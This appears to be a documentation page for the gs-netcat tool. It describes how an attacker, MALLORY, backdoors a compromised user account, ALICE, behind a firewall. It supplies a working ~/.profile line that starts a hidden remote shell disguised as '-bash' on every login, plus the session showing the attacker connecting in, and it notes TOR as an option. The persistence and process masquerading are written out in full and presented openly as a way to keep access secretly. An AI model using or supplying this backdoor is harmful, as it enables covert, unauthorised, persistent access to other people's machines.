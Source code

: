# Global Socket User Login Shell (auto-restarting)
**Connect to a firewalled host**

**Problem**  
MALLORY gained access to ALICE but does not have superuser priviledges (root). MALLORY likes to access ALICE remotely. ALICE (and MALLORY) are on two different networks and behind a NAT/Firewall. Neither of them can reach the other.  

**Objective**  
Backdoor ALICE so that MALLORY can access ALICE remotely (without tampering with the firewall, NAT or router settings) and without superuser priviledges (root).

**Solution**  
Start gs-netcat from ALICE's *~/.profile* and do so secretly and silently (without ALICE noticing).


On "ALICE" add the following line to the end of *~/.profile*. This will start the gs-netcat backdoor every time that ALICE logs in. The gs-netcat process is hidden as *-bash* and shows up as *-bash* in the process list.
```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s ExampleKeyXXXXChangeMe -liqD" SHELL=/bin/bash exec -a -bash gs-netcat)
```

Start the backdoor manually for testing. Thereafter the backdoor will start (and remain running) whenever ALICE logs in for the first time:
```ShellSession
alice@ALICE:~$ source ~/.profile
```

Now log in from "MALLORY" to "ALICE":
```ShellSession
m@MALLORY:~ $ gs-netcat -s ExampleKeyXXXXChangeMe -i
=Secret         : "ExampleKeyXXXXChangeMe"
=Encryption     : SRP-AES-256-CBC-SHA-End2End (Prime: 4096 bits)
alice@ALICE:~$ id
uid=1001(alice) gid=1001(alice)
alice@ALICE:~$
```

There are other ways to start a backdoor. This is an example.

Many more gs-netcat options are available: For example *-T* to connect via TOR. See the manual page of gs-netcat. 
